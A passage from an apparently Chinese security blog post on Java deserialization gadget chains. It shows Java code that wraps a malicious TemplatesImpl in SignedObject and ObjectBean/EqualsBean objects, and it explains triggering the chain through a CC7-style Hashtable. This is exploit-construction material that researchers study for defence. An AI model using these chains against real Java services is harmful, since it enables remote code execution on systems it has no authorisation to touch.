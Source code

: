 ```
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        run(hashMap2, "debug", "object");
    }
    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
} 
```

##### [EqualsBean](https://tttang.com/archive/1701/#toc_equalsbean)

rome 链的关键转折点在于`pReadMethod.invoke(_obj,NO_PARAMS)`，`EqualsBean`也存在这个关键代码

[![image-20220810093914403.png](https://storage.tttang.com/media/attachment/2022/08/10/960244e3-9d21-400c-9666-d3a0ed4557b6.png)](https://storage.tttang.com/media/attachment/2022/08/10/960244e3-9d21-400c-9666-d3a0ed4557b6.png)

那么茯苓可以利用珍藏多年的 CC7 链，利用`Hashtable`来触发`equals`

[![image-20220810094410681.png](https://storage.tttang.com/media/attachment/2022/08/10/3854f91a-a984-4735-ab06-a5024f09c548.png)](https://storage.tttang.com/media/attachment/2022/08/10/3854f91a-a984-4735-ab06-a5024f09c548.png)

这步是 CC7 的构造方式，因为要构造两遍，所以写为静态方法。

[![image-20220810095018646.png](https://storage.tttang.com/media/attachment/2022/08/10/1549b374-1a62-41b1-bdfd-2e32d54ac285.png)](https://storage.tttang.com/media/attachment/2022/08/10/1549b374-1a62-41b1-bdfd-2e32d54ac285.png)

构造恶意`TemplatesImpl`，将其装入第一个`Hashtable`

[![image-20220810095408001.png](https://storage.tttang.com/media/attachment/2022/08/10/d9dd1302-a9a4-4309-add2-36db703ff92b.png)](https://storage.tttang.com/media/attachment/2022/08/10/d9dd1302-a9a4-4309-add2-36db703ff92b.png)

构造恶意`SignedObject`，将其装入第二个`Hashtable`
